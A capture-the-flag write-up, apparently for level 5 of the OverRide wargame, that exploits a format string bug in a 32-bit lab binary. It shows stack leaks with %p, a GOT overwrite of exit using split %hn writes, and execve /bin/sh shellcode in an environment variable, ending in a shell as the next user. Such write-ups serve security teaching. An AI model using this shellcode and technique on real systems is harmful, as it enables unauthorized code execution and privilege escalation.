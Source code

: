 # Level 5

Ah `printf`, don't we love it?

```shell
level05@OverRide:~$ ./level05 
%p
0x64
```
We have another 32bit program with vulnerable format strings on our hands.

Let's find where we control the buffer
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "BBBB" + "%p|"*10') 
bbbb0x64|0xf7fcfac0|0xf7ec3add|0xffffd6ef|0xffffd6ee|(nil)|0xffffffff|0xffffd774|0xf7fdb000|0x62626262|
```
Oh yeah, our uppercase characters get converted to lowercase, but we can see it's the 10th arg
```shell
level05@OverRide:~$ ./level05 < <(python -c 'print "0000%10$p"')
00000x30303030
```

Ok Let's find the value of `exit` to replace it in the GOT
```shell
level05@OverRide:~$ gdb ./level05                                    
(gdb) disas exit                  
Dump of assembler code for function exit@plt:                        
   0x08048370 <+0>:     jmp    *0x80497e0                            
   0x08048376 <+6>:     push   $0x18                                 
   0x0804837b <+11>:    jmp    0x8048330                             
End of assembler dump.            
```
`0x80497e0` is `exit` in the GOT

But this time we don't just have a function to call, what are we gonna do!
```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Of course! Let's now get the address of our shellcode with some safety margin for good measure.
```shell
level05@OverRide:~$ gdb ./level05 
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) p (char*)getenv("PWN")
$1 = 0xffffdd10 "\220\220\220\220\220\220\220\220\220\220\220\220...
```
Let's add a good `0x64` just to be safe -> `0xFFFFDD74`
GOT exit -> `0x80497e0`
```shell
level05@OverRide:~$ ./level05   < <(python -c 'print "\xe0\x97\x04\x08" + "%{}$p".format(str(0xffffdd74)) + "%10$n"')
```
It doesn't work this time, the reason is that we just can't use such a big number of characters for padding. We'll have to split our writes between the higher and lower bytes, and use the modifier `h` to only write 2 bytes, like this:
```shell
level05@OverRide:~$ ./level05 < <(echo "AAAABBBB%10\$p%11\$p")
aaaabbbbb0x616161610x62626262
```

Which translates to:
`(GOT ADDR LO BYTES ADDR | GOT ADDR HI BYTES ADDR ) ` +
`(( % PADDING | LO BYTES OF PWN ADDR - 8 | THROWAWAY CONV) | ( % SRC | 10TH VALUE IN STACK | $hn WRITE 2 BYTES))`
`(( % PADDING | HI BYTES OF PWN ADDR - LO BYTES | THROAWAY CONV) | (% SRC | 11TH VAL IN STACK | $hn WRITE 2 BYTES))`

Which should give us before conversions
`(0x80497E0 + 0x80497E2) + ( %(0xDD74-8)$x + %10$hn ) + ( %(0xFFFF-DD74)$x  + %11$hn)`

in python:
```python
"\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%{}c".format(0xdd74-8) + "%10$hn" + "%{}c".format(0xffff-0xdd74) + "%11$hn"
```

Let's try it
```shell
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%{}c".format(0xdd74-8) + "%10$hn" + "%{}c".format(0xffff-0xdd74) + "%11$hn"' ; cat ) | ./level05 

[...]
whoami
level06
```

What a handful!
